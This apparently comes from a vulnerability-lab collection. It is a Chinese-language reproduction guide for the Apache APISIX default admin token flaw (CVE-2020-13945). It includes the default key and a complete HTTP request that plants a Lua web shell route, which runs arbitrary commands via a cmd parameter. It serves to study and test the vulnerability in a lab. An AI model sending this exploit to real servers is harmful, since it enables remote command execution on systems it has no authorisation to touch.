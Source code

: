 # Apache APISIX 默认密钥漏洞（CVE-2020-13945）

Apache APISIX是一个高性能API网关。在用户未指定管理员Token或使用了默认配置文件的情况下，Apache APISIX将使用默认的管理员Token `edd1c9f034335f136f87ad84b625c8f1`，攻击者利用这个Token可以访问到管理员接口，进而通过`script`参数来插入任意LUA脚本并执行。

参考链接：

- https://apisix.apache.org/docs/apisix/getting-started
- https://github.com/apache/apisix/pull/2244
- https://seclists.org/oss-sec/2020/q4/187

## 漏洞环境

执行如下命令启动一个Apache APISIX 2.11.0（这个漏洞并没有且应该不会被官方修复，所以到最新版仍然存在）：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:9080`即可查看到默认的404页面。

## 漏洞复现

利用默认Token增加一个恶意的router，其中包含恶意LUA脚本：

```
POST /apisix/admin/routes HTTP/1.1
Host: your-ip:9080
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close
X-API-KEY: edd1c9f034335f136f87ad84b625c8f1
Content-Type: application/json
Content-Length: 406

{
    "uri": "/attack",
"script": "local _M = {} \n function _M.access(conf, ctx) \n local os = require('os')\n local args = assert(ngx.req.get_uri_args()) \n local f = assert(io.popen(args.cmd, 'r'))\n local s = assert(f:read('*a'))\n ngx.say(s)\n f:close()  \n end \nreturn _M",
    "upstream": {
        "type": "roundrobin",
        "nodes": {
            "example.com:80": 1
        }
    }
}
```

![](1.png)

然后，我们访问刚才添加的router，就可以通过cmd参数执行任意命令：

```
http://your-ip:9080/attack?cmd=id
```

![](2.png)
